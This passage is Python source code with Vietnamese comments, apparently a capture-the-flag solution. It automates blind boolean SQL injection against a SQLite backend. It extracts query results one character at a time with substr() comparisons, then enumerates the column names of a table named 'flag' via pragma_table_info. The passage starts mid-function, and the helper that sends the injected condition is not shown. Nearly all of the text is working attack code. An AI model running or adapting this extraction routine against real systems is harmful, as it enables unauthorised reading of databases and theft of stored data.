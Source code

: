 ```python
            # Xây dựng câu hỏi SQL hoàn chỉnh: "Ký tự thứ `i` của kết quả có phải là `char` không?"
            sql_condition = f"substr(({base_query}), {i}, 1) = '{char}'"
            
            if ask_sql_question(sql_condition):
                result_string += char
                found_char_for_this_index = True
                print(f"Tìm thấy ký tự: '{char}'. Chuỗi hiện tại: '{result_string}'")
                break # Tìm thấy rồi, chuyển sang vị trí tiếp theo

        # Nếu lặp hết bộ ký tự mà không tìm thấy gì, nghĩa là chuỗi đã kết thúc
        if not found_char_for_this_index:
            print(f"\nĐã mò xong. Kết quả cuối cùng: '{result_string}'")
            break
            
    return result_string

def get_column_names(table_name):
    """
    Hàm này thực hiện tác vụ cụ thể: lấy tất cả tên cột từ một bảng cho trước.
    """
    print(f"\n{'='*20} BẮT ĐẦU TÌM CÁC CỘT CỦA BẢNG '{table_name}' {'='*20}")
    
    found_columns = []
    # Thử tìm tối đa 10 cột
    for offset in range(10):
        print(f"\n--- Đang tìm cột tại offset {offset} ---")
        
        # Câu lệnh SQL để lấy tên của MỘT cột tại một offset cụ thể
        # pragma_table_info là lệnh của SQLite để xem cấu trúc bảng
        query_for_one_column = f"SELECT name FROM pragma_table_info('{table_name}') LIMIT 1 OFFSET {offset}"
        
        # Sử dụng hàm mò chuỗi đa năng để lấy tên cột
        column_name = dump_string_with_sql(query_for_one_column)
        
        if column_name:
            found_columns.append(column_name)
        else:
            # Nếu không trả về gì, nghĩa là đã hết cột để tìm
            print("\nKhông tìm thấy thêm cột nào. Đã hoàn tất.")
            break
            
    return found_columns

def main():
    table_to_inspect = 'flag'
    columns = get_column_names(table_to_inspect)
    print(f"\n\nHOÀN TẤT! Các cột tìm được trong bảng '{table_to_inspect}':")
    if columns:
        for col in columns:
            print(f" -> {col}")
    else:
        print("Không tìm thấy cột nào.")

if __name__ == "__main__":
    main()
```
